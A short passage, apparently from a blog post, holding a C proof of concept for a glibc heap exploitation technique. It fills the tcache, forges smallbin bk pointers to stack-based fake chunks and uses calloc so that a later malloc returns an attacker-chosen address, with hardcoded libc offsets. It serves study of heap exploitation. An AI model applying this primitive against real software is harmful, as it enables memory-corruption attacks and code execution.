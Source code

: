 ```c
{
    puts("getheap");
    size_t libc_addr=puts-0x70970;
    size_t* mp_72=libc_addr+0x3b62c8;
    size_t heap=*mp_72;
    return heap;
}
int main()
{    
    size_t* chunkarray[0x10];
    for(int i=0;i<7;i++)
    {
        chunkarray[i]=malloc(0x80);
    }
    size_t* chunk1=malloc(0x80);
    malloc(0x10);  //prevent  merge
    size_t* chunk2=malloc(0x80);
    malloc(0x10);  //prevent  merge
    for(int i=0;i<7;i++)
    {
        free(chunkarray[i]);
    }
    free(chunk1);
    free(chunk2);


    malloc(0x90);

    for(int i=0;i<2;i++)
    {
        chunkarray[i]=malloc(0x80);
    }

    size_t fakechunk1[0x20];
    size_t fakechunk2[0x20];
    chunk2[1]=fakechunk1;  //bk
    fakechunk1[3]=fakechunk2;   // bk->bk->fd = unsorted bin libc and bk can be written

    size_t* chunk3=calloc(1, 0x80);
    
    size_t* chunk4=malloc(0x80);
    printf("fakechunk1 %p\n",fakechunk1);
    printf("fakechunk1 enter tcache fakechunk1[2] %p\n",fakechunk1[2]);
    printf("fakechunk2 in smallbin fd = unsortedbin libc fakechunk2[2] %p\n",fakechunk2[2]);   //write fakechunk2->fd libc 
    printf("malloc(0x80) chunk4 %p\n",chunk4);
    

}
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/6beda5fa0cc74994850ad2860f3ad37d.png)
